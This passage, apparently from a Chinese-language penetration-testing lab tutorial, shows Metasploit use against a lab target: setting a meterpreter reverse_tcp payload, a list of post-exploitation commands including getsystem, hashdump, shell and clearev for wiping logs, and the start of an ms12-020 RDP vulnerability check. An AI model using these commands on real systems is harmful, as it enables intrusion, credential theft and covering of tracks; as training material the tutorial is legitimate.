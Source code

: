 其中设置了使用meterpreter的reverse_tcp模块。

set payload windows/x64/meterpreter/reverse_tcp    //使用**payload**：meterpreter/reverse_tcp
![image.png](https://s2.loli.net/2023/11/16/xgVXziSPmtIGjM3.png)
看到出现了meterpreter，说明攻击成功。
![image.png](https://s2.loli.net/2023/11/16/vOBG8QMwn1Fpa5f.png)

关于meterpreter的reverse_tcp使用方法:

```bash
pwd    //打印当前工作目录
sysinfo     // 查看系统信息
getuid      //获取当前权限的用户id
ps       //查看当前目标机上运行的进程列表和pid
getsystem      //获取system权限
screenshot    //截取目标主机当前屏幕
hashdump     //获取用户名与hash口令
shell     //获取目标主机shell
upload     //上传一个文件
download    //下载一个文件
execute     //执行目标系统中的文件（-f指定文件，-i执行可交互模式，-H隐藏窗口）
clearev    //清除日志
background    //将meterpreter放入后台（使用sessions -i重新连接到会话）
```

![image.png](https://s2.loli.net/2023/11/16/Yd3n6kXsoPab5tu.png)

### 使用auxiliary模块（示例）

#### 1．启动Metasploit

（2）在终端使用如下命令，启动Metasploit终端（提示符msf>）：

```bash
msfdb init && msfconsole
```

#### 2．检测靶机是否存在ms12-020漏洞

（1）在Metasploit终端下输入以下命令查找ms12-020相关的模块：

```bash
search ms12-020
```

搜索的结果中，第一项为ms12-020漏洞利用模块，第二项为ms12-020漏洞检测模块：

![image-20231101195555132](https://s2.loli.net/2023/11/01/2ChxqoKD8r54cPg.png)

（2）分别输入以下命令，使用ms12_020_check模块对目标机进行漏洞检测，以确认目标机存在ms12-020漏洞：

```bash
use  auxiliary/scanner/rdp/ms12_020_check   //使用ms12_020_check模块

show  options   //查看该模块需要设置哪些参数

set  RHOSTS  [靶机IP]   //设置目标机的IP地址

run    //执行
```
